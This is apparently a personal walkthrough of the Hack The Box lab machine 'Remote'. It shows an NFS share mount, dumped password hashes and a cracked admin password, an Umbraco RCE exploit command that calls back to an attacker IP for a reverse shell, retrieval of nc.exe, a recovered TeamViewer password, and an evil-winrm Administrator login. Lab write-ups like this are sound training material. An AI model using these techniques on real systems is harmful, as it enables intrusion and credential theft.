








HTB: Remote
we have an NFS share hosted on port 2049,
2049/tcp open mountd 1-3 (RPC #100005)

We can then mount the share with and access the files.
mount -t nfs 10.10.10.180:/site_backups /mnt2

Interesting text found at /mnt2/App_Data/
contentPage id="1148" key="75041b76-4b0a-4cc9-86b7-5ed91ab78c21" parentID="1106" level="2" creatorID="0" sortOrder="5" createDate="2020-02-20T01:58:26" updateDate="2020-02-20T01:58:26" nodeName="Intranet" urlName="intranet" path="-1,1106,1148" isDoc="" nodeType="1101" creatorName="admin" writerName="admin" writerID="0" template="1063" nodeTypeAlias="contentPage" isPublished="true">
<pageTitle><![CDATA[Intranet]]></pageTitle>
<bodyText><![CDATA[{
Possible username in sfg file
ssmith
Hashes?
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
cat Web.config | grep umbracoConfigurationStatus
<add key="umbracoConfigurationStatus" value="7.12.4" />
Version - 7.12.4 which has RCE
I will come back to this machine, I accidentally saw an article explaining the priv esc so I will wait till I forget
Back on this machine a few weeks later and I have forgotten the priv esc. Looks like I also missed a web page which has a login page for umbraco so we can use the RCE exploit above. Just need to find creds.
Looks like the admin email is admin@htb.local
admin hash cracks to baconandcheese but we cant login to umbraco
For whatever reason I can login now, i tried logging in earlier and it didnt work. Looked up 0xdfs guide and he logged in fine. I tested it again and it worked.
https://github.com/noraj/Umbraco-RCE

Tried exploiting this manually but couldnt get a shell
Using this exploit we can get a reverse shell
https://github.com/Jonoans/Umbraco-RCE
python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.24

Shell is very broken so I grab nc.exe from my machine and get a new shell


Privledge escalation
On the public desktop where the userflag is there was a teamviewer.lnk folder.
I found the team viewer version here

Found Unattended Password: !R3m0te!
0x6972e4aa is hex for 1765855754 which is the teamviewer ID
.\TeamViewer.exe --Password sk7zg596 --Control 440752317
I made this a million times more complicated that I thought. With the Unattended password we could just remote in with evilwinrm. I used a script to find the teamviewer ID, installed teamviewer on my machine and added it to teamviewer but couldnt get it working. Tried using the command line commands to try and get it working and nothing worked. Then I realized we could just use evilwinrm to get into the machine.
evil-winrm -i 10.10.10.180 -u Administrator
